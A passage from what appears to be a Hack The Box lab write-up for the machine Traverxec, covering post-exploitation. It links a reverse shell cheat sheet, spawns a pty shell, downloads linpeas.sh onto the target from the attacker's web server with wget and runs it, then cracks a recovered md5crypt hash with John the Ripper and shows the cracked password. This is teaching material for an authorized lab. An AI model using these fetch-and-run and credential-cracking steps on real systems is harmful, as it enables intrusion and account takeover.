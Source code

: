 Additionally, here is a link to a [reverse shell cheat-sheet on GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md).  

### Enumerating WWW-Data  

First, we are missing some information from our commands and generally, this makes me think of spawning a pty shell. Let's go ahead and do that with a quick python command:  

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```  

Since I want to get some more information about this machine quickly, I will transfer over a copy of linpeas.sh (found on GitHub) to enumerate it and print the results to a file. Let's do it by hosting the file with Apache2 and grabbing it with Wget.  


```bash
My Machine:
# Start up our local web server to serve Linpeas: 

$ cp ./linpeas.sh /var/www/html
$ sudo service apache2 start

HTB Machine:
# Download Linpeas from our Apache webserver to /tmp:
$ cd /tmp 
$ wget http://10.10.14.27/linpeas.sh -O linpeas.sh

# Give executable writes to www-data user and run Linpeas:
$ chmod 777 linpeas.sh
$ ./linpeas.sh
```  
While I am scrolling through the results of this scan, I am looking for my most likely result to help escalate privileges. The first huge thing I notice is that Linpeas came across a password hash for the user David:  

![David's Credentials](/assets/images/HTB/traverxec/david-credentials.png)  


### Password Cracking with JohnTheRipper

On my local machine, I added the usernmae:hash combination to a new file named hash.txt. Then, I cracked it with JohnTheRipper and my personal copy of rockyou.txt.  

```bash
└─$ john --wordlist=~/tools/rockyou.txt hash.txt                                                                                                                                                                                         1 ⨯
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:01:11 DONE (2022-07-16 23:12) 0.01391g/s 147229p/s 147229c/s 147229C/s Noyoo..Noury
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```  
